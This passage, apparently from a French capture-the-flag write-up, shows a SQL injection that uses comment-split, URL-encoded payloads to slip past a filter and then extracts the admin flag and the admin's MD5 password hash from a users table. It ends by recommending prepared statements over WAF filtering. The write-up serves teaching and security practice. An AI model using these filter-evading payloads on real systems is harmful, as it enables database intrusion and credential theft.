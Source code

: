 ```  
- name
- surname
- password
- admin

Il y a un champs appelé `admin`, qui n'est bien entendu pas à négliger.  
Il y a fort à parier que ce champs soit de type boolean. Et donc que sa valeur soit à `0` pour un utilisateur non-admin, et passe à `1` pour un administrateur. Vérifions cela :  
  
``` my $query = "SE/**/LECT%0BGRO/**/UP_CO/**/NCAT%28ad/**/min%29%0BF/**/ROM%0Buse/**/rs"; ```  

Décodé :  
``` SELECT GROUP_CONCAT(admin) FROM users ```  


Output :  

	Found content: 0  
	Found content: 0  
	Found content: 0  
	Found content: 0  
	Found content: 0  
	Found content: 0  
	Found content: 1  
	Found content: 0  
	Found content: 0  
	
	[*] Retrieved data: 0,0,0,0,0,0,1,0,0  


Le résultat de cette requête est constitué de plusieurs `0` ainsi que d'un `1` :). Nous avons donc un administrateur dans cette table :P.  

Bon, récupérons le mot de passe de l'administrateur :) :  
``` my $query = "SE/**/LECT%0BGRO/**/UP_CO/**/NCAT%28pas/**/swo/**/rd%29%0BF/**/ROM%0Buse/**/rs%0BWHE/**/RE%0Bad/**/min%0BIN(1)"; ```

Décodé :  
``` SELECT GROUP_CONCAT(password) FROM users WHERE admin IN(1) ```



Output :  

	Found content: 9342BDEBA5A87C209FE12D5A55DCE8BE  
	[*] Retrieved data: 9342BDEBA5A87C209FE12D5A55DCE8BE  



Le password enregistré ressemble fortement à du hash md5 : `9342BDEBA5A87C209FE12D5A55DCE8BE`  

Mais pas besoin de cracker quoi que ce soit, le hash avec les caractères en minuscule valide le challenge.. :D  

**Flag**: `9342bdeba5a87c209fe12d5a55dce8be`  

En conclusion, il paraît beaucoup plus difficile de se protéger contre les injection SQL en aval (Mise en place de WAF et de filtrage de requêtes) qu'en amont: Opter pour un système par requêtes préparées élimine toute attaque connue à ce jour et nous apparaît bien plus simple et bon marché à mettre en place. 
À bientôt pour de nouvelles aventures!

## Authors
* Sliim <sliim@mailoo.org>
* ZadYree <zadyree@tuxfamily.org>
```